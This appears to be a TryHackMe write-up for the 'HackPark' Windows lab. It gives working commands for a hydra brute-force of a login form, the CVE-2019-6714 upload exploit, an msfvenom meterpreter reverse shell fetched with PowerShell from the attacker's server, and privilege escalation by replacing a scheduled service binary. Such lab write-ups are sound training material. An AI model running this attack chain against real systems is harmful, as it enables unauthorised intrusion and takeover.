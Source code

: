 ```yaml
---
title: HackPark - Easy THM
date: 2023-12-06 11:34:29 +/-0800 
categories: [writeup, tryhackme] 
writeup: :title
permalink: /hackpark 
tags: [thm, medium, writeup, windows, hydra, rce, metasploit, talace]
---
```


- OS: windows
- Difficulty: easy
- Author: talace

## Scanning 👀
### threader3000.py
```
Port 80 is open
Port 3389 is open
```
### Nmap scan
```
nmap -p80,3389 -sV -sC -T4 -Pn -oA 10.10.229.26 10.10.229.26

PORT     STATE SERVICE            VERSION
80/tcp   open  http               Microsoft IIS httpd 8.5
3389/tcp open  ssl/ms-wbt-server?
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```
## Exploit ⚒️
### Brute force w/ hydra
```
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.229.26  http-post-form "/Account/login.aspx?ReturnURL=%2fadmin%2f:__VIEWSTATE=HO0GkKGhqvanRz8QFeEDnNXtpYtrhxuJvR8jiXGCdzebR5ZKml6%2FQmm8Pr9IQ09Me06CBXD36YPshvECILNgSqaMd2cVEox7T6T%2BqPD%2FwGwQA%2B6ZdW1w8y7BMfNh3Hv9lMtLWs3hYIywZDzxnv7QUGn00fE0YVbK4UBIFNBG5QO0XLreqpuIKgC4Xstaaqfpd%2Bc4osXi0a6Dcox3qv3ZxW3XXpIDIdR85zru8zWcEBL30mwv9u64TXA8JBhN%2FCMQRNkiyWJMffQH%2FS0LK%2FX5cIraHf1kk%2BVtzdP2ruYPPDdz8YCrrKsibTMiWw6xQzKR3QIQdndxtyz94k6Q1cE90hAbH00F9OnMlWEbrmILfyga42Pg&__EVENTVALIDATION=j4urGc3uiZQ8Win7%2F%2F3uenmwf3nfBWF2r5tOm%2Fu6j5vvS0Sog7zxLA0VaodEtKzXPWYhE8AHdM%2BgtMbniCLTx2hQlp7NQPM89GbqrSf6WQSF%2B4BS8QHYzJRYrLSHcA4imlN%2BrIUS%2Beeq8ftqW5oAs7J4J2PSVcA5xE3ZFp0qr2zu03dm&ctl00%24MainContent%24LoginUser%24UserName=admin&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login failed"
```

### Enumeration of WebApp

I'm able to retrieve the version of the WebApp

With that i've found the CVE-2019-6714
### Exploit of WebApp - [CVE-2019-6714]
First get access on a post
Modify it and click on "add a file"
Configure the LHOST and LPORT
Put the payload in it with the name: PostView.ascx
Open your listener to 4444
Access to the Path **"/?theme=../../App_Data/files"**
## Foothold 🐼

Now that we got an access, let's get a more stable one with msfvenom.

##### 1. Generate our payload
```
msfvenom -a x64 -p windows/x64/meterpreter/reverse_tcp LHOST=10.8.138.226 LPORT=4444 -f exe > pwn.exe
```
##### 2. Open a webserver with python 
```
python3 -m http.server 80
```
##### 3. transfer the file into victime machine
```
powershell -c "Invoke-WebRequest -Uri 'http://10.8.138.226:80/shell.exe' -OutFile 'C:\Program Files (x86)\SystemScheduler\Message.exe'"
```
##### 4. Open a listener with metasploit and configure it 
```
set PAYLOAD windows/x64/meterpreter/reverse_tcp

set LHOST 10.10.10.10

set LPORT 4444

run
```
##### 5. Now lunch the payload in the victime machine and get access to the machine!
```
.\pwn.exe
```
## Privilege escalation 👺
Find a interesting services
```
SystemScheduler
```

Let's have a look at the log file
```
cd c:\Program Files (x86)\SystemScheduler\Events
```
We found that the Message.exe is running as Administrator by this service.
Let's replace it and use it as our escalation 😼

##### 1. Rename the file
```
mv Message.exe Message.bak
```
##### 2. Transfer my file and rename into Message.exe
powershell -c "Invoke-WebRequest -Uri 'http://10.8.138.226:80/shell.exe' -OutFile 'C:\Program Files (x86)\SystemScheduler\Message.exe'"

##### 3. Put my session meterpreter in background, run again the listener and wait...

**Yes, we have our session! Now let's retrieve some flag!**
```
cat C:\Users\jeff\Desktop\user.txt
cat C:\Users\Administrator\Desktop\root.txt
```

